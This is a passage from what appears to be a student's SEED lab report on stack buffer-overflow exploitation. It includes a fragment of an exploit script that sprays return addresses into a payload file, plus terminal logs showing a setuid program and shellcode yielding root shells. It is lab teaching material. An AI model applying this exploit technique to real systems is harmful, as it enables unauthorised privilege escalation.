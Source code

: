 ```
for i in range(25):
	ret = 0xffffcb58 + 172 + delta
	content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
	delta = delta + 4
##################################################################
...
```
Lastly, we ran the three commands just like above. Removing a badfile, replace it by running exploit.py, and running stack (level 2) against that badfile.
```
[03/02/21]seed@VM:~/.../code$ rm badfile
[03/02/21]seed@VM:~/.../code$ exploit.py
[03/02/21]seed@VM:~/.../code$ ./stack-L2
Input size: 517
# id                                                                           
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
# whoami                                                                       
root
```
As we can see from the solution, we were able to reach the shell successfully. Additionally, the id shows that the real UID is seed but effective UID is root, which means we have root privilege.

### Task 4:
Before completing Task 4, I made /bin/sh point back to /bin/dash instead of /bin/zsh. dash have its countermeasure when they are checking the real UID and effective UID.
```
[03/02/21]seed@VM:~/.../shellcode$ sudo ln -sf /bin/dash /bin/sh
```

#### Task 4.1:
Running the regular program after recompiling:
```
[03/02/21]seed@VM:~/.../shellcode$ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
[03/02/21]seed@VM:~/.../shellcode$ ./a32.out
$ whoami
seed
$ id
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
$ exit
[03/02/21]seed@VM:~/.../shellcode$ ./a64.out
$ id
uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
$ whoami
seed
$ exit
```
Recompiling with setuid target and running this setuid program:
```
[03/02/21]seed@VM:~/.../shellcode$ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
sudo chmod 4755 a32.out a64.out
[03/02/21]seed@VM:~/.../shellcode$ ./a32.out
# whoami
root
# id
uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
```